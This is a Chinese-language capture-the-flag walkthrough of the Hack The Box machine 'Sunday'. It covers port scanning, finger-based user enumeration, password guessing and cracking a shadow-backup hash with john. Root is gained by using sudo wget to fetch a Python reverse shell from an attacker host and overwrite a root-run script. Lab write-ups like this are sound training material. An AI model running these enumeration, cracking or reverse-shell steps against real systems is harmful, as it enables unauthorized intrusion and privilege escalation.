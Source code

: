 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Sunday"
linktitle: "Sunday"
date: 2022-06-10T18:16:40+08:00
type: book
summary: ""
test: 
---
```


#### nmap

```bash
sudo nmap -r -p- -vv -sV 10.10.10.76
```

![](image/image_vYgpvcDB8s.png)

79端口 `finger`

![](image/image_7BqrrpRcaH.png)

<https://baike.baidu.com/item/finger%E6%9C%8D%E5%8A%A1/10976284?fr=aladdin>

公开的漏洞信息中能够找到`finger`漏洞能够枚举ssh的用户名，因为又扫到了`22022`是`ssh`服务，

![](image/image_SNDWhz2fK5.png)

找到一个枚举脚本

<https://github.com/pentestmonkey/finger-user-enum>

```bash
./finger-user-enum.pl -m 50 -U /usr/share/dnsrecon/subdomains-top1mil-20000.txt -t 10.10.10.76|less -S


```

这里注意到有两个用户，sunny和sammy记录了登录的IP地址，

![](image/image_LoTlbLvRov.png)

经过尝试发现密码是题目名字，老套路了

`sunny/sunday`

![](image/image_p1baulwPVk.png)

提权

`/root/troll` 这个脚本写死了

![](image/image_2X908TVN4G.png)

发现备份文件 `/backup/shadow.backup`

![](image/image_eLEVrC9X6s.png)

使用john破解sammy密码，保存到文件`sammy.txt`

```bash
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB
```

执行

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt sammy.txt
```

得到`sammy`密码`cooldude!`

![](image/image_nn7vTO6CQA.png)

执行`sudo -l` 发现`sunny`免密执行`/root/troll`，`sammy`免密执行`root`权限的`/usr/bin/wget`，

通过`wget`覆盖`/root/troll` 即可获得root shell

![](image/image_caSqAyQNso.png)

shell

```python
#!/usr/bin/python

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",2333))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

sammy

```bash
sudo wget -O /root/troll http://10.10.14.2/shell.py
```

![](image/image_fIO80XMK8y.png)

sunny

```bash
#这里要执行快一点，有定时任务会快速覆盖这个文件

sudo /root/troll
```

获得shell

![](image/image_Qm8oo7uMCa.png)
